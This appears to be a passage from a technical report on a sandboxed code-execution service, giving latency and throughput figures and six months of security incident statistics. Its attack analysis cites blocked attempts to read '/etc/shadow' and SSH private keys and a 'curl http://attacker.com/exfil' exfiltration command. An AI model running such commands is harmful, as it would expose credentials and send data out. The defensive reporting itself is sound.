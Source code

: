 Monthly security reviews analyze incident trends, updating detection patterns and security policies to block newly discovered attack techniques.

## 11. Results and Performance Analysis

### 11.1 Execution Throughput and Latency

Production deployment demonstrates high throughput with consistent low latency:

**Performance Metrics (30-day average):**
- **Daily executions**: 102,000 code samples
- **Peak concurrent executions**: 487 (reached during Phase 3 intensive training)
- **Average latency**: 2.3 seconds (end-to-end: queue → execution → result)
- **P50 latency**: 1.8 seconds
- **P90 latency**: 4.1 seconds
- **P99 latency**: 8.5 seconds
- **P99.9 latency**: 15.2 seconds (typically complex Java compilations)

**Latency Breakdown (average execution):**
- Queue wait: 0.3s (scales with load)
- Container acquisition: 0.001s (from pool)
- Code upload: 0.05s (bind mount)
- Execution: 1.8s (language-dependent)
- Result collection: 0.1s
- Container cleanup: 0.05s
- **Total**: 2.3s

**Throughput Scaling**: Baseline 50 replicas sustain 30,000 executions/day (1 execution every 144 seconds per replica). Peak scaling to 200 replicas handles 487 concurrent executions = 120,000+ executions/day capacity.

### 11.2 Security Posture and Incident Statistics

Zero breaches over 6 months of production operation validates defense-in-depth architecture:

**Security Metrics (6-month production):**
- **Container escape attempts**: 47 detected and blocked
  - Technique breakdown: 23 path traversal, 15 privilege escalation, 9 network attempts
- **Security policy violations**: 1,234 total
  - OOM kills: 892 (resource exhaustion attempts)
  - Network access attempts: 187 (blocked by network_mode: none)
  - Filesystem write attempts: 155 (blocked by read-only root)
- **Successful breaches**: 0 (zero containers escaped isolation)
- **Data exfiltration incidents**: 0
- **Lateral movement attempts**: 0

**Attack Technique Analysis**:
- **Path traversal** (23 incidents): Attempts to access `/etc/shadow`, `../../root/.ssh/id_rsa` blocked by bind mount restrictions
- **Privilege escalation** (15 incidents): Attempts to `sudo`, `setuid`, or exploit kernel vulnerabilities blocked by dropped capabilities and seccomp
- **Network exfiltration** (9 incidents): Attempts to `curl http://attacker.com/exfil` immediately fail with "Network unreachable"
